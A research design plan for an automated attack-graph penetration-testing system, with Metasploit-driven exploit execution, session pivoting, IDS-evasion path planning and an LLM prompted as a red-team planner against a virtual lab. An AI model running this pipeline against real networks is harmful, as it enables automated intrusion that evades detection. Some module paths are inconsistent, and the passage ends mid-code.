

# AutoAttack — Automated Attack Graph Planner
### Implementation Plan · Research-Grade Red Team Automation System

---

> **Mission:** Build a modular, research-quality automated penetration testing system that constructs attack graphs from live network scans, applies four distinct planning strategies (classical, LLM-guided, RL-trained, detection-aware), executes the chosen path against a virtual lab, and produces rigorous evaluation reports — demonstrating ideas from Wang et al. 2024, Incalmo 2025, BountyHunter 2025, and AttackMate 2025, plus two original novel extensions.

---

## Table of Contents

1. [System Architecture](#1-system-architecture)
2. [Repository Structure](#2-repository-structure)
3. [Data Models](#3-data-models)
4. [Module Specifications](#4-module-specifications)
   - 4.1 [Graph Layer](#41-graph-layer)
   - 4.2 [Planner Layer](#42-planner-layer)
   - 4.3 [Executor Layer](#43-executor-layer)
   - 4.4 [Detection Layer](#44-detection-layer)
   - 4.5 [RL Layer](#45-rl-layer)
   - 4.6 [Evaluation Layer](#46-evaluation-layer)
   - 4.7 [Visualization Layer](#47-visualization-layer)
5. [Lab Configuration](#5-lab-configuration)
6. [Vagrant Lab Setup](#6-vagrant-lab-setup)
7. [Novel Extensions](#7-novel-extensions)
8. [Testing Strategy](#8-testing-strategy)
9. [12-Week Milestone Roadmap](#9-12-week-milestone-roadmap)
10. [Evaluation & Results Display](#10-evaluation--results-display)
11. [LLM Code Generation Prompt](#11-llm-code-generation-prompt)
12. [Ethical & Legal Guidelines](#12-ethical--legal-guidelines)

---

## 1. System Architecture

### 1.1 Five-Layer Pipeline

```
┌─────────────────────────────────────────────────────────────────────┐
│                         INPUT LAYER                                  │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐  ┌─────────┐ │
│  │ Nmap / Nessus│  │  NVD CVE API │  │  BloodHound  │  │  YAML   │ │
│  │ Network Scan │  │  Vuln Lookup │  │  AD Topology │  │  Config │ │
│  └──────┬───────┘  └──────┬───────┘  └──────┬───────┘  └────┬────┘ │
└─────────┼─────────────────┼─────────────────┼───────────────┼──────┘
          └─────────────────┴─────────────────┴───────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────┐
│                      GRAPH CONSTRUCTION LAYER                        │
│  ┌───────────────────┐  ┌───────────────────┐  ┌─────────────────┐ │
│  │   Graph Builder   │  │  CVE Enrichment   │  │   Neo4j Store   │ │
│  │  MulVAL+NetworkX  │  │  CVSS + precond   │  │  Persist+Query  │ │
│  └───────────────────┘  └───────────────────┘  └─────────────────┘ │
└─────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────┐
│                         PLANNER LAYER                                │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐  ┌─────────┐ │
│  │  A* Planner  │  │ LLM Planner  │  │  RL Planner  │  │ Detect- │ │
│  │  Wang 2024   │  │ Incalmo 2025 │  │   (Novel)    │  │  Aware  │ │
│  │  Classical   │  │  GPT-4 chain │  │  Q-Learning  │  │ (Novel) │ │
│  └──────────────┘  └──────────────┘  └──────────────┘  └─────────┘ │
└─────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────┐
│                        EXECUTION LAYER                               │
│  ┌───────────────┐  ┌───────────────┐  ┌────────────┐  ┌─────────┐ │
│  │CALDERA Agent  │  │Metasploit RPC │  │AttackMate- │  │SSH/WinRM│ │
│  │Action Dispatch│  │Exploit Engine │  │Style Runner│  │  Direct │ │
│  └───────────────┘  └───────────────┘  └────────────┘  └─────────┘ │
└─────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────┐
│                       EVALUATION LAYER                               │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐  ┌─────────┐ │
│  │ Success Rate │  │ IDS Evasion  │  │Step Optimality│  │  Log   │ │
│  │  Path Compl. │  │Snort/Suricat │  │ Fewer=Better │  │Realism  │ │
│  └──────────────┘  └──────────────┘  └──────────────┘  └─────────┘ │
└─────────────────────────────────────────────────────────────────────┘
          ▲                                                            │
          │                   (Replan loop)                           │
          └────────────────────────────────────────────────────────────┘
```

### 1.2 Data Flow Diagram

```
nmap_scan.xml ──▶ GraphBuilder ──▶ nx.DiGraph ──▶ Planner ──▶ plan.json
                       │                                        │
               CVEEnricher                              PlaybookRunner
               (NVD API)                                       │
                       │                                       ▼
                  Neo4j DB ◀──────────────────────── executor.run()
                                                              │
                                                      IDSMonitor ◀── Snort
                                                              │
                                                  ReplanTrigger ──▶ LLMPlanner
                                                              │
                                                        metrics.py
                                                              │
                                                      report.md + graphs
```

### 1.3 Paper-to-Module Mapping

| Research Paper | Year | Key Idea Adopted | Implemented In |
|---|---|---|---|
| Wang et al. | 2024 | STRIPS/partial-order planning on attack graph | `planners/astar_planner.py` |
| Singer et al. (Incalmo) | 2025 | LLM outputs high-level task chain, agents execute | `planners/llm_planner.py` |
| Cramer et al. (AttackMate) | 2025 | Human-like execution with realistic delays + logs | `executor/playbook_runner.py` |
| Mödersheim et al. (BountyHunter) | 2025 | Reward-based lookahead action selection | `rl/q_agent.py` (reward shaping) |
| **Novel Extension 1** | 2026 | Multi-objective detection-aware Pareto planning | `planners/detection_aware.py` |
| **Novel Extension 2** | 2026 | RL agent trained in simulated AttackEnv | `planners/rl_planner.py` + `rl/` |

---

## 2. Repository Structure

```
autoattack/
│
├── main.py                         # CLI entrypoint (argparse)
├── config.yaml                     # Lab topology, credentials, API keys
├── requirements.txt                # All Python dependencies
│
├── graph/                          # LAYER 1: Attack graph construction
│   ├── __init__.py
│   ├── builder.py                  # Nmap XML + CVE data → nx.DiGraph
│   ├── enricher.py                 # NVD CVE API calls, SQLite cache
│   ├── neo4j_store.py              # Persist and query graph in Neo4j
│   └── models.py                   # Host, Service, AttackEdge dataclasses
│
├── planners/                       # LAYER 2: Planning strategies
│   ├── __init__.py
│   ├── base_planner.py             # Abstract base: .plan(graph, start, goal)
│   ├── astar_planner.py            # A* with CVSS-based costs (Wang 2024)
│   ├── llm_planner.py              # GPT-4 guided planner (Incalmo 2025)
│   ├── rl_planner.py               # Q-learning planner (Novel)
│   └── detection_aware.py          # Multi-objective Pareto planner (Novel)
│
├── executor/                       # LAYER 3: Attack execution
│   ├── __init__.py
│   ├── base_executor.py            # Abstract base: .execute_step(action)
│   ├── metasploit_executor.py      # Metasploit MSFRPC adapter
│   ├── caldera_executor.py         # CALDERA REST API adapter
│   ├── ssh_executor.py             # Paramiko SSH/WinRM executor
│   └── playbook_runner.py          # AttackMate-style YAML playbook runner
│
├── detection/                      # LAYER 4: IDS monitoring & evasion
│   ├── __init__.py
│   ├── ids_monitor.py              # Tail Snort/Suricata logs, parse alerts
│   ├── ids_cost_model.py           # Action type → detection probability
│   └── replan_trigger.py           # Alert threshold → trigger replan
│
├── rl/                             # LAYER 5: Reinforcement learning
│   ├── __init__.py
│   ├── environment.py              # gym.Env wrapping the attack graph
│   ├── q_agent.py                  # Tabular Q-learning agent
│   └── trainer.py                  # Training loop, epsilon-greedy, save Q-table
│
├── evaluation/                     # LAYER 6: Metrics & reporting
│   ├── __init__.py
│   ├── metrics.py                  # success_rate, avg_steps, detection_events
│   ├── log_collector.py            # Collect IDS + syslog during run
│   └── reporter.py                 # Generate JSON + markdown + HTML report
│
├── visualization/                  # LAYER 7: Graphs & dashboards
│   ├── __init__.py
│   ├── graph_viz.py                # Graphviz/D3.js export of attack graph
│   ├── path_viz.py                 # Highlight chosen path in graph
│   └── dashboard.py               # Matplotlib/Plotly evaluation dashboard
│
├── lab/                            # Virtual lab provisioning
│   ├── Vagrantfile                 # 3-VM: attacker (Kali), target1 (Ubuntu), target2 (WinSrv)
│   ├── provision_attacker.sh       # Install MSF, Nmap, Snort, Neo4j, clone repo
│   ├── provision_target1.sh        # Install vuln SSH + Samba on Ubuntu
│   └── provision_target2.sh        # WinSrv: MS17-010 unpatched, WinRM enabled
│
└── tests/
    ├── fixtures/
    │   └── scan_fixture.xml        # Sample Nmap XML for unit tests
    ├── test_graph_builder.py
    ├── test_astar.py
    ├── test_llm_planner.py
    └── test_executor.py
```

---

## 3. Data Models

### `graph/models.py` — Complete Dataclass Definitions

```python
from dataclasses import dataclass, field
from typing import Optional

@dataclass
class Service:
    port: int
    protocol: str           # "tcp" | "udp"
    name: str               # e.g. "ssh", "smb", "http"
    version: str            # e.g. "OpenSSH 7.4"
    cves: list[str]         # list of CVE IDs e.g. ["CVE-2017-0144"]

@dataclass
class Host:
    ip: str
    hostname: str
    os: str                 # "linux" | "windows"
    services: list[Service] = field(default_factory=list)
    role: str = "unknown"   # "webserver" | "domain_controller" | "database"

@dataclass
class AttackEdge:
    source_host: str        # Source IP
    target_host: str        # Target IP
    cve_id: str             # e.g. "CVE-2017-0144"
    exploit_module: str     # e.g. "exploit/windows/smb/ms17_010_eternalblue"
    preconditions: list[str]    # e.g. ["has_network_access", "port_445_open"]
    postconditions: list[str]   # e.g. ["has_shell_on_target", "is_admin"]
    cvss_score: float           # 0.0–10.0 from NVD
    detection_weight: float     # 0.0–1.0, probability of IDS detection
    service_name: str = ""      # "smb" | "ssh" | "http"
    description: str = ""       # Human-readable step description

@dataclass
class ExecutionResult:
    success: bool
    session_id: Optional[str]
    output: str
    duration_seconds: float
    alerts_triggered: int = 0   # IDS alerts during this step

@dataclass
class RunResult:
    planner_name: str
    path: list[AttackEdge]
    goal_reached: bool
    total_steps: int
    successful_steps: int
    total_duration_seconds: float
    total_alerts: int
    execution_log: list[dict]   # [{step, result, timestamp}, ...]
```

### 3.1 AttackEdge Field Reference

| Field | Type | Source | Description |
|---|---|---|---|
| `source_host` | `str` | Nmap scan | Attacker-controlled host IP |
| `target_host` | `str` | Nmap scan | Target host IP |
| `cve_id` | `str` | NVD API | CVE identifier |
| `exploit_module` | `str` | `EXPLOIT_MAP` dict | Metasploit module path |
| `preconditions` | `list[str]` | Rule engine | Required facts before exploit |
| `postconditions` | `list[str]` | Rule engine | Facts gained after exploit |
| `cvss_score` | `float` | NVD API | CVSS v3 base score (0–10) |
| `detection_weight` | `float` | `ids_cost_model.py` | IDS detection probability |

---

## 4. Module Specifications

### 4.1 Graph Layer

#### `graph/enricher.py` — CVEEnricher

**Class:** `CVEEnricher`

**Method:** `lookup(service: str, version: str) -> list[tuple[str, float]]`

Implementation steps:
1. Query NVD REST API v2.0:
   ```
   GET https://services.nvd.nist.gov/rest/json/cves/2.0
       ?keywordSearch={service}+{version}
       &resultsPerPage=10
   ```
2. Parse JSON response. Extract `cve.id` and `metrics.cvssMetricV31[0].cvssData.baseScore`. Fall back to `cvssMetricV2` if V3 unavailable.
3. Cache in local SQLite `cve_cache.db` — table: `(service TEXT, version TEXT, cve_id TEXT, score REAL, cached_at TIMESTAMP)`. Skip API call if cache entry is less than 7 days old.
4. Maintain hardcoded `EXPLOIT_MAP: dict[str, str]` for known high-value CVEs:

```python
EXPLOIT_MAP = {
    "CVE-2017-0144": "exploit/windows/smb/ms17_010_eternalblue",
    "CVE-2021-44228": "exploit/multi/misc/log4shell_header_injection",
    "CVE-2021-3156":  "exploit/linux/local/sudo_baron_samedit",
    "CVE-2019-0708":  "exploit/windows/rdp/cve_2019_0708_bluekeep_rce",
    "CVE-2018-10933": "exploit/linux/ssh/libssh_auth_bypass",
    "CVE-2014-6271":  "exploit/multi/http/apache_mod_cgi_bash_env_exec",
    "CVE-2003-0201":  "exploit/linux/samba/trans2open",
}
```

5. Return `list[tuple[cve_id, cvss_score]]`.

**Method:** `train_from_logs(alert_log_path: str, execution_log_path: str)`

Uses co-occurrence of exploit runs and IDS alerts to update `detection_weight` scores. Parse both logs by timestamp. For each exploit run, count IDS alerts within a ±30 second window. Update score as a running average. Serialize updated scores to `detection_scores.json`.

---

#### `graph/builder.py` — GraphBuilder

**Function:** `build_graph(nmap_xml_path: str, enricher: CVEEnricher) -> nx.DiGraph`

Complete implementation steps:

```
1. Parse Nmap XML
   └── xml.etree.ElementTree.parse(nmap_xml_path)
   └── For each <host> element:
       ├── Extract <address addr=... addrtype="ipv4">
       ├── Extract <hostname name=...>
       ├── Extract <osmatch name=...> for OS detection
       └── For each <port state="open">:
           ├── Extract portid, protocol
           └── Extract <service name=... version=...>

2. CVE Enrichment
   └── For each (service, version) pair:
       └── enricher.lookup(service, version) → [(cve_id, cvss_score), ...]

3. Edge Generation
   └── For every (source_host, target_host) pair where source ≠ target:
       └── For every CVE on target_host's services:
           └── If CVE is in EXPLOIT_MAP:
               └── Create AttackEdge(
                       source_host=source.ip,
                       target_host=target.ip,
                       cve_id=cve_id,
                       exploit_module=EXPLOIT_MAP[cve_id],
                       preconditions=infer_preconditions(service),
                       postconditions=infer_postconditions(service),
                       cvss_score=cvss_score,
                       detection_weight=ids_cost_model.score(module)
                   )

4. Build DiGraph
   └── G = nx.DiGraph()
   └── G.add_node(host.ip, data=host) for each host
   └── G.add_edge(edge.source, edge.target, data=edge) for each AttackEdge
   └── Return G
```

**Helper:** `infer_preconditions(service: Service) -> list[str]`

```python
PRECONDITION_MAP = {
    "smb":   ["has_network_access", f"port_{service.port}_open"],
    "ssh":   ["has_network_access", f"port_{service.port}_open"],
    "http":  ["has_network_access", f"port_{service.port}_open", "http_service_running"],
    "rdp":   ["has_network_access", "port_3389_open"],
    "mysql": ["has_network_access", f"port_{service.port}_open"],
}
```

**Helper:** `infer_postconditions(service: Service) -> list[str]`

```python
POSTCONDITION_MAP = {
    "smb":   ["has_shell_on_target", "is_admin"],
    "ssh":   ["has_shell_on_target"],
    "http":  ["has_webshell_on_target"],
    "rdp":   ["has_rdp_session", "is_admin"],
    "mysql": ["has_db_access"],
}
```

---

#### `graph/neo4j_store.py` — Neo4jStore

**Class:** `Neo4jStore`

Constructor: `__init__(uri: str, user: str, password: str)` — connects using `neo4j.GraphDatabase.driver`.

**Method:** `store_graph(G: nx.DiGraph)`

```cypher
-- For each host node:
MERGE (h:Host {ip: $ip})
SET h.hostname = $hostname, h.os = $os, h.role = $role

-- For each attack edge:
MATCH (a:Host {ip: $source}), (b:Host {ip: $target})
CREATE (a)-[:EXPLOITS {
    cve_id: $cve_id,
    module: $module,
    cvss: $cvss,
    detection: $detection
}]->(b)
```

**Method:** `query_shortest_path(start: str, goal: str) -> list[dict]`

```cypher
MATCH path = shortestPath(
    (a:Host {ip: $start})-[:EXPLOITS*]->(b:Host {ip: $goal})
)
RETURN [rel IN relationships(path) | rel] AS edges
```

**Method:** `query_stealthiest_path(start: str, goal: str) -> list[dict]`

```cypher
MATCH path = (a:Host {ip: $start})-[:EXPLOITS*]->(b:Host {ip: $goal})
WITH path, REDUCE(s = 0, r IN relationships(path) | s + r.detection) AS total_detection
ORDER BY total_detection ASC
LIMIT 1
RETURN path
```

---

### 4.2 Planner Layer

#### `planners/base_planner.py` — Abstract Base

```python
from abc import ABC, abstractmethod
import networkx as nx
from graph.models import AttackEdge

class NoPlanFoundError(Exception):
    pass

class BasePlanner(ABC):

    @abstractmethod
    def plan(self, graph: nx.DiGraph, start: str, goal: str) -> list[AttackEdge]:
        """Return ordered list of AttackEdge objects forming the attack path."""
        pass

    def edge_cost(self, edge: AttackEdge) -> float:
        """
        Default cost = 10 - cvss_score.
        Low CVSS (hard exploit) = high cost. High CVSS (easy exploit) = low cost.
        Range: 0.0 (CVSS=10, trivial) to 10.0 (CVSS=0, impossible).
        """
        return 10.0 - edge.cvss_score

    def path_nodes_to_edges(
        self, graph: nx.DiGraph, node_path: list[str]
    ) -> list[AttackEdge]:
        """Convert list of node IPs to list of AttackEdge objects."""
        edges = []
        for i in range(len(node_path) - 1):
            src, tgt = node_path[i], node_path[i + 1]
            edge_data = graph.edges[src, tgt]["data"]
            edges.append(edge_data)
        return edges
```

---

#### `planners/astar_planner.py` — Classical Planner (Wang et al. 2024)

**Class:** `AStarPlanner(BasePlanner)`

**Method:** `plan(graph, start, goal) -> list[AttackEdge]`

```python
def plan(self, graph, start, goal):
    try:
        node_path = nx.astar_path(
            graph,
            source=start,
            target=goal,
            heuristic=lambda u, v: 0,   # admissible null heuristic
            weight=lambda u, v, d: self.edge_cost(d["data"])
        )
        return self.path_nodes_to_edges(graph, node_path)
    except nx.NetworkXNoPath:
        raise NoPlanFoundError(f"No path from {start} to {goal}")
```

**Cost function visualization (for use in report):**

```
CVSS Score:   0    1    2    3    4    5    6    7    8    9   10
Edge Cost:   10.0  9.0  8.0  7.0  6.0  5.0  4.0  3.0  2.0  1.0  0.0
             ▲                                                      ▲
          Hardest                                               Easiest
          exploit                                               exploit
```

---

#### `planners/llm_planner.py` — LLM Planner (Incalmo 2025)

**Class:** `LLMPlanner(BasePlanner)`

**Constructor:** `__init__(api_key: str, model: str = "gpt-4o", max_retries: int = 3)`

**Method:** `plan(graph, start, goal) -> list[AttackEdge]`

Full implementation:

```
Step 1: Serialize graph to text
   └── For each host: "HOST {ip} ({os}): services={service_list}"
   └── For each edge: "EDGE {src}→{tgt}: CVE={cve}, module={module}, CVSS={score:.1f}"

Step 2: Build system prompt
   └── "You are a red team planner. Given a network attack graph below,
        output a JSON array of attack steps from {start} to {goal}.
        Each step must be: {"source_ip", "target_ip", "cve_id", "exploit_module", "reason"}.
        Only use edges that exist in the graph. Output JSON only. No prose. No markdown."

Step 3: Call API (OpenAI or Anthropic)
   └── messages = [
           {"role": "system", "content": SYSTEM_PROMPT},
           {"role": "user", "content": GRAPH_SERIALIZATION}
       ]
   └── response = openai.chat.completions.create(model=model, messages=messages)

Step 4: Parse and validate
   └── json.loads(response.content)
   └── For each step: assert (step.source_ip, step.target_ip) is a real edge in graph
   └── If validation fails: retry with error appended to messages (max 3 retries)

Step 5: Map to AttackEdge objects
   └── For each validated step: look up matching AttackEdge from graph edge data
   └── Return list[AttackEdge]
```

**Method:** `plan_with_context(graph, start, goal, current_state: dict) -> list[AttackEdge]`

`current_state` schema:
```python
{
    "completed_steps": [{"source": str, "target": str, "cve_id": str}],
    "failed_step":     {"source": str, "target": str, "cve_id": str, "error": str},
    "new_info":        str,   # e.g. "IDS alert triggered on 192.168.56.30"
    "remaining_goal":  str
}
```

Append `current_state` as a second user message before calling the API. This enables mid-run replanning triggered by `replan_trigger.py`.

---

#### `planners/detection_aware.py` — Novel Extension 1

**Class:** `DetectionAwarePlanner(BasePlanner)`

**Constructor:** `__init__(alpha: float = 0.5, beta: float = 0.5)`

Where `alpha` weights exploit difficulty (CVSS-based) and `beta` weights IDS detection probability.

**Core cost function:**

```
combined_cost(edge) = alpha × (10 - edge.cvss_score)
                    + beta  × edge.detection_weight × 10

Examples:
  Easy exploit, highly detectable (CVSS=9.0, detect=0.9):
    cost = 0.5×1.0 + 0.5×9.0 = 5.0  ← penalized for detection

  Hard exploit, stealthy (CVSS=4.0, detect=0.1):
    cost = 0.5×6.0 + 0.5×1.0 = 3.5  ← preferred despite lower CVSS

  Easy exploit, stealthy (CVSS=8.5, detect=0.15):
    cost = 0.5×1.5 + 0.5×1.5 = 1.5  ← ideal path
```

**Method:** `plan(graph, start, goal) -> list[AttackEdge]`

Same A* as AStarPlanner but using `combined_cost`.

**Method:** `plan_pareto(graph, start, goal) -> dict[str, list[AttackEdge]]`

Returns three named paths:

```
1. "fastest":   lowest total (10 - cvss_score) — pure A* on CVSS
2. "stealthiest": lowest total detection_weight — A* with beta=1.0, alpha=0.0
3. "balanced":  lowest combined_cost at alpha=beta=0.5
```

Implementation: use `nx.shortest_simple_paths(graph, start, goal, weight=cost_fn)`, take the first 20 candidate paths, score each on both axes `(exploit_cost, detection_cost)`, select Pareto-optimal front, return top 3.

**Report output from `plan_pareto`:**

```
┌─────────────┬───────────────┬────────────────┬──────────────┐
│    Path     │ Total Exploit │ Total Detection│  # of Steps  │
│             │     Cost      │     Cost       │              │
├─────────────┼───────────────┼────────────────┼──────────────┤
│ Fastest     │     4.2       │      8.1       │      3       │
│ Stealthiest │    11.5       │      1.4       │      5       │
│ Balanced    │     7.8       │      3.2       │      4       │
└─────────────┴───────────────┴────────────────┴──────────────┘
```

---

#### `planners/rl_planner.py` — Novel Extension 2

**Class:** `RLPlanner(BasePlanner)`

**Constructor:** `__init__(qtable_path: str = "qtable.pkl")`

Loads pre-trained Q-table from pickle file. Raises `FileNotFoundError` with helpful message if not found: `"Run: python main.py train-rl --graph graph.pkl --episodes 5000"`.

**Method:** `plan(graph, start, goal) -> list[AttackEdge]`

Greedy rollout:
```
state = (current_host=start, compromised=frozenset({start}))
path = []
max_steps = 20  # prevent infinite loops
visited = set()

while current_host != goal and len(path) < max_steps:
    available_actions = list(graph.out_edges(current_host, data=True))
    if not available_actions:
        raise NoPlanFoundError("RL agent reached dead end")

    # Greedy action: highest Q-value
    best_action = max(
        available_actions,
        key=lambda e: qtable.get((state, (e[0], e[1])), 0.0)
    )
    edge = best_action[2]["data"]
    path.append(edge)
    current_host = edge.target_host
    compromised = compromised | {current_host}
    state = (current_host, compromised)

return path
```

---

### 4.3 Executor Layer

#### `executor/metasploit_executor.py`

**Class:** `MetasploitExecutor(BaseExecutor)`

**Constructor:** `__init__(config: dict)`

Connect using `pymetasploit3`:
```python
from pymetasploit3.msfrpc import MsfRpcClient
self.client = MsfRpcClient(
    config["password"],
    server=config.get("host", "127.0.0.1"),
    port=config.get("port", 55553),
    ssl=False
)
```

**Method:** `execute_step(edge: AttackEdge) -> ExecutionResult`

```
1. Create console:    console = self.client.consoles.console()
2. Send commands:
   - console.write(f"use {edge.exploit_module}\n")
   - console.write(f"set RHOSTS {edge.target_host}\n")
   - console.write(f"set LHOST {self.attacker_ip}\n")
   - console.write(f"run -j\n")
3. Poll output loop (max 60s, poll every 2s):
   - output += console.read()["data"]
   - if "Meterpreter session" in output → success=True, extract session_id
   - if "Exploit completed, but no session" in output → success=False
   - if "Connection refused" in output → success=False (early exit)
4. Return ExecutionResult(success, session_id, output, duration)
```

**Method:** `pivot_to(session_id: str, command: str) -> str`

```python
session = self.client.sessions.session(session_id)
return session.run_with_output(command, timeout=30)
```

**Method:** `get_sessions() -> list[dict]`

```python
return [
    {"id": sid, "type": s["type"], "target": s["target_host"]}
    for sid, s in self.client.sessions.list.items()
]
```

---

#### `executor/playbook_runner.py` — AttackMate-Style

**Class:** `PlaybookRunner`

**Method:** `generate_playbook(path: list[AttackEdge], config: dict) -> str`

Generates YAML playbook from planner output:

```yaml
# Auto-generated by AutoAttack PlaybookRunner
metadata:
  generated_at: "2026-04-10T10:30:00Z"
  planner: "astar"
  total_steps: 3

steps:
  - name: "Reconnaissance on 192.168.56.20"
    type: "shell"
    command: "nmap -sV -p 445 192.168.56.20"
    delay_before: 2.5
    delay_after: 1.0
    log_output: true

  - name: "Exploit EternalBlue on 192.168.56.20"
    type: "metasploit"
    module: "exploit/windows/smb/ms17_010_eternalblue"
    options:
      RHOSTS: "192.168.56.20"
      LHOST: "192.168.56.10"
    delay_before: 5.0
    delay_after: 2.0
    log_output: true
    on_failure: "replan"

  - name: "Pivot to 192.168.56.30"
    type: "pivot"
    via_session: "auto"
    command: "ipconfig"
    delay_before: 3.0
    delay_after: 1.5
    log_output: true
```

**Method:** `run(playbook_path: str) -> list[ExecutionResult]`

For each step:
1. Sample delay from `Gaussian(mean=step.delay_before, std=0.8)`, clipped to [0.5, 15.0].
2. Execute via appropriate executor (shell/metasploit/pivot).
3. Append to `execution_log.jsonl`:
   ```json
   {"timestamp": 1712345678.123, "step": "Exploit EternalBlue", "success": true,
    "duration": 12.4, "output_preview": "Meterpreter session 1 opened..."}
   ```
4. If `on_failure: "replan"` and step failed: call `replan_trigger.trigger(current_state)`.
5. Return list of `ExecutionResult`.

---

### 4.4 Detection Layer

#### `detection/ids_monitor.py`

**Class:** `IDSMonitor`

**Constructor:** `__init__(log_path: str, log_format: str = "fast")`

Supports `log_format = "fast"` (Snort fast.log) or `"eve"` (Suricata eve.json).

**Method:** `start_monitoring()`

Launch background `threading.Thread`:
```python
def _tail_log(self):
    with open(self.log_path) as f:
        f.seek(0, 2)          # Seek to end
        while self._running:
            line = f.readline()
            if line:
                alert = self._parse_line(line)
                if alert:
                    self._alerts.append(alert)
            else:
                time.sleep(0.1)
```

**Method:** `_parse_line(line: str) -> Optional[Alert]`

For Snort fast.log format:
```
01/01-12:34:56.789 [**] [1:1000001:1] ET SCAN Nmap [**] [Classification: ...] {TCP} 192.168.56.10:54321 -> 192.168.56.20:445
```
Parse with regex: `r'(\d+/\d+-\d+:\d+:\d+\.\d+).*?\[\*\*\] (.+?) \[\*\*\].*?\{(\w+)\} ([\d.]+):\d+ -> ([\d.]+):\d+'`

Return `Alert(timestamp, rule_msg, protocol, src_ip, dst_ip, severity=classify_severity(rule_msg))`.

**Method:** `get_alerts_since(timestamp: float) -> list[Alert]`

Return `[a for a in self._alerts if a.timestamp > timestamp]`.

---

#### `detection/ids_cost_model.py`

**Function:** `score_action(exploit_module: str, service: str = "") -> float`

```python
DETECTION_SCORES = {
    # Highly detectable — well-known exploit signatures
    "exploit/windows/smb/ms17_010_eternalblue":     0.92,
    "exploit/windows/smb/ms17_010_psexec":          0.88,
    "exploit/windows/rdp/cve_2019_0708_bluekeep":   0.85,
    "auxiliary/scanner/portscan/tcp":               0.95,
    "auxiliary/scanner/smb/smb_ms17_010":           0.80,

    # Moderately detectable
    "exploit/multi/handler":                        0.35,
    "exploit/linux/http/apache_mod_cgi_bash":        0.55,
    "exploit/multi/misc/log4shell_header_injection": 0.60,

    # Lower detection (slow, protocol-conforming)
    "exploit/unix/ssh/libssh_auth_bypass":           0.20,
    "exploit/linux/local/sudo_baron_samedit":        0.15,
    "exploit/multi/http/jenkins_script_console":     0.40,
}
DEFAULT_SCORE = 0.50

def score_action(exploit_module: str, service: str = "") -> float:
    for key, score in DETECTION_SCORES.items():
        if exploit_module.startswith(key):
            return score
    if "scanner" in exploit_module:
        return 0.75
    if "brute" in exploit_module or "login" in exploit_module:
        return 0.65
    return DEFAULT_SCORE
```

---

#### `detection/replan_trigger.py`

**Class:** `ReplanTrigger`

**Constructor:** `__init__(monitor: IDSMonitor, llm_planner: LLMPlanner, threshold: int = 3)`

**Method:** `check_and_replan(current_state: dict, graph: nx.DiGraph, goal: str) -> Optional[list[AttackEdge]]`

```
1. Count IDS alerts since last step started
2. If alert_count >= threshold:
   a. Log: f"[REPLAN] {alert_count} IDS alerts detected. Triggering LLM replan."
   b. Update current_state["new_info"] with alert descriptions
   c. Call llm_planner.plan_with_context(graph, current_host, goal, current_state)
   d. Return new path
3. Else return None (continue current plan)
```

---

### 4.5 RL Layer

#### `rl/environment.py` — AttackEnv

**Class:** `AttackEnv(gym.Env)`

```python
class AttackEnv(gym.Env):
    def __init__(self, graph: nx.DiGraph, start: str, goal: str):
        self.graph = graph
        self.start = start
        self.goal = goal
        # Observation: index of current host
        self.observation_space = gym.spaces.Discrete(len(graph.nodes))
        # Action: index of available edge from current host
        self.action_space = gym.spaces.Discrete(graph.number_of_edges())

    def reset(self):
        self.current_host = self.start
        self.compromised = {self.start}
        self.steps_taken = 0
        return self._state()

    def step(self, action_edge: AttackEdge):
        self.steps_taken += 1
        reward = -1.0      # Step penalty

        # Probabilistic exploit success
        success_prob = action_edge.cvss_score / 10.0
        if random.random() < success_prob:
            self.compromised.add(action_edge.target_host)
            self.current_host = action_edge.target_host
        else:
            reward -= 2.0  # Failed exploit penalty

        # Detection penalty
        if random.random() < action_edge.detection_weight:
            reward -= 3.0  # IDS alert penalty

        # Goal reached
        done = False
        if self.current_host == self.goal:
            reward += 10.0
            done = True

        # Max steps exceeded
        if self.steps_taken >= 25:
            done = True

        return self._state(), reward, done, {}
```

---

#### `rl/trainer.py`

**Function:** `train(env: AttackEnv, episodes: int = 5000, lr: float = 0.1, gamma: float = 0.95) -> dict`

```
Training loop:
  epsilon = 1.0
  epsilon_decay = 0.9995
  epsilon_min = 0.05
  Q = defaultdict(float)   # Q[(state, action_key)] = value

  For each episode:
    state = env.reset()
    done = False
    episode_reward = 0

    While not done:
      actions = get_available_actions(env.graph, current_host)

      # Epsilon-greedy action selection
      if random.random() < epsilon:
          action = random.choice(actions)    # Explore
      else:
          action = max(actions, key=lambda a: Q[(state, a.cve_id)])  # Exploit

      next_state, reward, done, _ = env.step(action)
      episode_reward += reward

      # Q-table update
      best_next = max([Q[(next_state, a.cve_id)] for a in get_available_actions(...)])
      Q[(state, action.cve_id)] += lr * (reward + gamma * best_next - Q[(state, action.cve_id)])

      state = next_state

    epsilon = max(epsilon_min, epsilon * epsilon_decay)
    log_episode(episode, episode_reward, epsilon)

  pickle.dump(dict(Q), open("qtable.pkl", "wb"))
  return dict(Q)
```

**Training progress output (print every 500 episodes):**

```
Episode  500/5000 | Avg Reward: -12.4 | Epsilon: 0.778 | Success Rate:  8%
Episode 1000/5000 | Avg Reward:  -8.1 | Epsilon: 0.605 | Success Rate: 23%
Episode 1500/5000 | Avg Reward:  -4.7 | Epsilon: 0.472 | Success Rate: 41%
Episode 2000/5000 | Avg Reward:  -2.1 | Epsilon: 0.368 | Success Rate: 58%
Episode 2500/5000 | Avg Reward:   1.3 | Epsilon: 0.287 | Success Rate: 69%
Episode 3000/5000 | Avg Reward:   3.8 | Epsilon: 0.223 | Success Rate: 76%
Episode 4000/5000 | Avg Reward:   5.9 | Epsilon: 0.135 | Success Rate: 84%
Episode 5000/5000 | Avg Reward:   7.2 | Epsilon: 0.050 | Success Rate: 89%
Q-table saved to qtable.pkl (1,247 state-action pairs)
```

---

### 4.6 Evaluation Layer

#### `evaluation/metrics.py`

```python
def success_rate(results: list[RunResult]) -> float:
    """Fraction of runs where goal was reached."""
